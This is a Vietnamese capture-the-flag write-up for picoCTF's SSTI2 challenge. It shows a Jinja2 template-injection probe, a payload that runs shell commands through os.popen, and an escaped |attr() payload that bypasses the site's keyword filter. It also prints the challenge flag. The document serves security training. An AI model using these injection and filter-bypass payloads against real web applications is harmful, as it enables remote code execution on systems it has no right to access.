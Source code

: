 # SSTI2
Giống như bài SSTI1, bài này cũng là 1 bài khai thác lỗ hổng SSTI.

![alt text](image.png)

SSTI (Server-Side Template Injection) là một lổ hổng web xảy ra khi kẻ tấn công có thể chèn đầu vào độc hại vào công cụ mẫu của ứng dụng web.

Ta thử nghiệm payload:

``` python 
{{7*7}}
```

Và kết quả là:

![alt text](image-1.png)

Template engine đang được sử dụng là `Jinja2` giống như bài SSTI1.

Tiếp tục nhập thử `payload` khai thác SSTI sau (giống như ở bài SSTI1):

``` python
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

Và kết quả là:

![alt text](image-2.png)

Có vẻ như trang web đã chặn hoạt động của `payload` cũ. Giờ ta cần một `payload` khác không bị chặn bởi trang web.

Tra cứu một chút, ta nhận được một số thông tin sau:

- Sử đụng `|attr()` để thay thế kí hiệu dấu `.`
- Sử dụng `\x5f` để thay thế cho dấu gạch dưới
- Sử dụng `__getitem__()` để 
WAF (Web Application Firewall) không tìm thấy chuỗi `builtins` và `import`.

``` python 
{{request|attr('application')|attr("\x5f\x5fglobals\x5f\x5f")|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')("\x5f\x5fimport\x5f\x5f")('os')|attr('popen')('cat flag')|attr('read')()}}
```

Sử dụng payload trên và ta có flag:

``` 
picoCTF{sst1_f1lt3r_byp4ss_eb2a60e7}
```